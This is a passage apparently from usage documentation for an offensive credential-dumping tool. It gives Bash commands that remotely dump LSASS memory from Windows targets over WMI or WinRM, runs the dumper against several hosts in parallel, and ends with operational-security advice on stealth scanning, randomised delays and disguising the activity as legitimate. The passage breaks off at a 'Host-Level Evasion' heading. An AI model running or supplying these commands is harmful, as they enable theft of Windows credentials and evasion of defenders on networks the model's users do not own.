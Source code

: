 Bash


# Increase timeouts for slow networks
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m comsvcs --timeout 120

# Optimize for fast networks
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x winrm -m powershell --timeout 15


Parallel Operations

Bash


# Process multiple targets in parallel
targets=("192.168.1.100" "192.168.1.101" "192.168.1.102")

for target in "${targets[@]}"; do
    (
        ./lsass_remote_dumper.sh -r -t "$target" -u admin -p "password" \
          -x wmi -m comsvcs -s -c -q
    ) &
done

wait  # Wait for all background jobs to complete


Security and Stealth Considerations

Operational Security (OPSEC)

Network-Level Stealth

Bash


# Use stealth scanning techniques
./lsass_network_scanner.sh -t target_range -s stealth

# Randomize timing between operations
sleep $((RANDOM % 60 + 30))  # Random delay 30-90 seconds

# Use legitimate-looking operations
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x winrm -m comsvcs -s -c -q


Host-Level Evasion
